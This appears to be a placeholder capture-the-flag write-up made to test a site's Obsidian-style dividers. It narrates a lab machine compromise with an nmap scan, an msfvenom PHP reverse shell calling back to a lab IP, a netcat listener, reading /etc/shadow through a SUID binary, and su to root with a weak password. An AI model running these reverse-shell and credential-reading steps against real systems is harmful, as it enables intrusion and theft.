

## Overview

This is a test writeup demonstrating the new Obsidian-style dividers that match the callout styling from Obsidian notes, plus Mermaid diagram support.

## Reconnaissance

Started with a basic nmap scan to identify open ports and services on the target machine.

```bash
nmap -sC -sV 10.10.10.100
```

<div class="divider divider-info">
    <span class="divider-title">Port Scan Results</span>
    <span class="divider-content">Found SSH (22) and HTTP (80) open</span>
</div>

## Initial Access

After enumerating the web application, discovered a file upload vulnerability that allowed uploading a PHP reverse shell.

```bash
# Generate reverse shell
msfvenom -p php/reverse_php LHOST=10.10.14.5 LPORT=4444 -f raw > shell.php

# Start listener
nc -lvnp 4444
```

<div class="divider divider-success">
    <span class="divider-title">Shell Access Successfully gained shell as www-data</span>
</div>

## Privilege Escalation

Found a misconfigured SUID binary that allowed reading arbitrary files. Used this to read `/etc/shadow` and cracked the root password.

```bash
# Find SUID binaries
find / -perm -4000 2>/dev/null

# Exploit vulnerable binary
/usr/local/bin/file-reader /etc/shadow
```

<div class="divider divider-warning">
    <span class="divider-title">Security Finding</span>
    <span class="divider-content">Weak root password detected: password123</span>
</div>

Escalated privileges using the compromised credentials:

```bash
su root
password123
```

<div class="divider divider-root">
    <span class="divider-title">Root Access</span>
    <span class="divider-content">Successfully escalated privileges to root</span>
</div>

## Flags

- **User Flag**: `a1b2c3d4e5f6g7h8i9j0k1l2m3n4o5p6`
- **Root Flag**: `z9y8x7w6v5u4t3s2r1q0p9o8n7m6l5k4`

## Timeline

Here's a visual representation of the attack path:



## Conclusion

Machine pwned! The Obsidian-style dividers are working perfectly and the Mermaid timeline diagram renders beautifully on the site.

---

**Pwned on:** January 22, 2026  
**Difficulty Rating:** ★★★★ (Personal rating)  
**Fun Factor:** ★★★★★ (How enjoyable was it?)